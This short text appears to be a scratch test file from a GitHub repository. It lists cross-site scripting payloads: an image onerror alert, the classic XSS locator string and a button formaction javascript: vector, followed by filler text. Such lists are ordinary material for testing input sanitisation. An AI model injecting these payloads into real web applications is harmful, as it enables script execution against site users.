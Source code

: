 # -b-
1:
<img src=x onerror=alert(1)>
2:
<img src=<'';!--"<XSS>=&{()}>
<'';!--"<<XSS>=&{()}
<form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>
test
asdadadada